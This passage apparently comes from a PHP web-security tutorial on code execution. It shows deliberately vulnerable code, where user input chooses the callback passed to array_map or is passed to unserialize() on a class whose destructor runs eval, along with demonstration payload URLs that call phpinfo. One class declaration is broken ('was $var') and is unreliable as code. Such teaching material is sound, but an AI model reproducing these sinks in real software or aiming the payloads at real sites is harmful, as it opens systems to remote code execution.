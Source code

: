 ```php
<?php
    $foobar = "phpinfo";
    ${"foobar"}();
?>
```

### Callback

Many functions can execute callback functions, which will cause code execution when the callback function is
controllable by the user.

```php
<?php
    $evil_callback = $_GET["callback"];
    $some_array = array(0,1,2,3);
    $new_array = array_map($evil_callback, $some_array);
?>
```

Attack payload

```text
http://www.a.com/index.php?callback=phpinfo
```

### Deserialization

If `unserialize()` defines a `__destruct()` or `__wakeup()` function at execution time, it may cause code execution.

```php
<?php
    class Example {
    was $var = "";
      function __destruct() {
        eval($this->var);
      }
    }
    unserialize($_GET["saved_code"]);
?>
```

Attack payload

```text
http://www.a.com/index.php?saved_code=O:7:"Example":1:{s:3:"var";s:10:"phpinfo();";}
```

## PHP Features

### Array

```php
<?php
    $var = 1;
    $var = array();
    $var = "string";
?>
```

